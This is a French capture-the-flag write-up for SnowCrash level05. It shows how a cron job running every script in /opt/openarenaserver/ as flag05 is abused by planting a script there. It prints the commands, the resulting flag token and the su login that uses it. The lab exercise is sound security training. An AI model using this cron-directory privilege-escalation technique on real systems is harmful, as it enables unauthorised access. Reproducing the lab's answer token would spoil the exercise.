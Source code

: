 # README - Exploitation du script openarenaserver (level05)

## Étapes suivies pour obtenir le Flag05

### 1. Identification du binaire

Le fichier `/usr/sbin/openarenaserver` est un script exécutable appartenant à `flag05` :

```bash
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

L'analyse du script montre qu'il exécute des fichiers dans le répertoire `/opt/openarenaserver/` :

```bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
    (ulimit -t 5; bash -x "$i")
    rm -f "$i"
done
```

```bash
level05@SnowCrash:~$ find / -name level05 2> /dev/null
/var/mail/level05
/rofs/var/mail/level05
level05@SnowCrash:~$ cd /var/mail
level05@SnowCrash:/var/mail$ ls -l
total 4
-rw-r--r--+ 1 root mail 58 Sep 11 10:38 level05
level05@SnowCrash:/var/mail$ cat level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

### 2. Exploitation de l'exécution automatique

Le script exécute automatiquement tous les fichiers dans `/opt/openarenaserver/`. Nous pouvons créer un fichier malveillant pour exécuter `getflag` et stocker le flag dans un fichier temporaire.

#### a. Création d'un fichier malveillant

```bash
echo "/bin/sh -c 'getflag > /tmp/flag_output'" > /opt/openarenaserver/exploit.sh
chmod +x /opt/openarenaserver/exploit.sh
```

#### b. Attente de l'exécution

Le fichier est automatiquement exécuté par le script `openarenaserver`, puis supprimé.

### 3. Récupération du flag

Vérifiez si le flag est écrit dans `/tmp/flag_output` :

```bash
cat /tmp/flag_output
```

### 4. Résultat

```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### 5. Passage à l'utilisateur suivant

Utilisez le flag pour vous connecter à l'utilisateur `flag05` :

```bash
level05@SnowCrash:~$ su flag05
Password: viuaaale9huek52boumoomioc
flag05@SnowCrash:~$ getflag
```
